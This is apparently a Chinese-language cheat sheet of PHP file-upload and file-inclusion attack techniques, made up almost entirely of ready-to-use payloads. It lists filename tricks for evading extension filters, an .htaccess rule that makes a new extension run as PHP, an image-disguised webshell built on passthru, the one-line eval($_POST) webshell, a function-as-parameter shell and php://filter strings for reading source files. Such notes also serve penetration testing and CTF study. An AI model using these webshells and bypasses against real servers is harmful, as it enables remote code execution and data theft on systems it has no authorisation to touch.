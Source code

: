 - 添加特殊字符

```
file.php......
file.php%20
file.php%0d%0a.jpg
file.php%0a
name.%E2%80%AEphp.jpg # name.gpj.php
file.php/
file.php/.
```

- NTFS备用数据流（将冒号插入 禁止的扩展名之后 或 允许的扩展名之前）

```
file.php::$data
```

- Apache配置文件 `.htaccess`

```
AddType application/x-httpd-php .rce
```

- 上传图片马结合文件包含漏洞利用

```php
GIF8;
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

- 一句话木马

```php
<?php @eval($_POST['c']); ?>
```

- 短标签

```
<?=phpinfo();>
```

- 函数作为参数 `?0=assert`

```php
<?php $_GET[0]($_POST[c]); ?>
```

- 文件名使用数组形式传递

- 条件竞争


## 文件包含

1. 仔细查看被包含的文件，其中的隐藏内容可能被作为代码解析
2. 伪协议

- `php://filter` 协议

```
php://filter/convert.base64-encode/resource=file.txt
php://filter/string.rot13/resource=file.txt
```
